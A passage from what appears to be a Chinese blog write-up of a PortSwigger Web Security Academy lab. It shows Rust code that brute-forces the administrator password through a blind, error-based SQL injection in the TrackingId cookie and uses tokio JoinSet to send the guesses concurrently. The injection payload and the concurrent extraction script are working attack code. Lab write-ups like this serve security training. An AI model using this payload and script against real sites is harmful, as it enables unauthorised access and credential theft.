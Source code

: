 ```rust
        for j in payload.iter() {
            let result = send_payload(i, j.to_string()).await;
            match result {
                Ok(s) => {
                    password += &s;
                    break;
                }
                Err(_) => {
                    continue;
                }
            }
        }
    }
    println!("use time {}", start.elapsed().as_secs());
    println!("{}", password);
    Ok(())
}

```

## 第二个版本

在这个版本中用到了 tokio task 的 `JoinSet`, 之前的笔记说过，`tokio::task::JoinSet`用于收集一系列异步任务，并判断它们是否终止。这个场景其实比较符合我们这个脚本的情况，我们对于密码的每一位的判断，都需要循环从a-z，0-9依次看请求是否会返回500来判断是否猜对，其实这个循环可以并发请求，只要有一个请求返回了500错误我们就终止其他的所有请求。
所以这个代码，我们在每次循环判断字符前，加了 `let mut set = JoinSet::new();`,然后在loop循环中通过 `set.join_next().await;` 不断获取task的结果，如果获取道了字符串，则执行`set.abort_all();` 其他所有任务，然后开始密码下一位的判断。
这一版本的代码，花费了40秒爆破到密码。

```rust
use reqwest::{header::HeaderMap, Client};
use tokio::{task::JoinSet, time::Instant};

const URL: &'static str = "https://0adc005c03bbc2b38098034c00cc001b.web-security-academy.net/login";
const MAX_NUM: i32 = 20;

type Error = Box<dyn std::error::Error + Send + Sync>;
type Result<T> = std::result::Result<T, Error>;

fn get_payload() -> Vec<String> {
    let res = ('a'..='z')
        .chain('0'..='9')
        .map(|b| b.to_string())
        .collect::<Vec<_>>();
    res
}

async fn send_payload(i: i32, j: String) -> Result<String> {
    let client = Client::builder()
        .danger_accept_invalid_certs(true)
        .build()?;
    let mut headers = HeaderMap::new();
    let v = format!("TrackingId=wQfcURjPwR0HUwUx'||(SELECT CASE WHEN SUBSTR(password,{},1)='{}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||';",i,j);
    headers.insert("Cookie", v.parse().unwrap());
    let status_code = client.get(URL).headers(headers).send().await?.status();
    if status_code == reqwest::StatusCode::INTERNAL_SERVER_ERROR {
        return Ok(j);
    }
    return Err("not found".into());
}

#[tokio::main]
```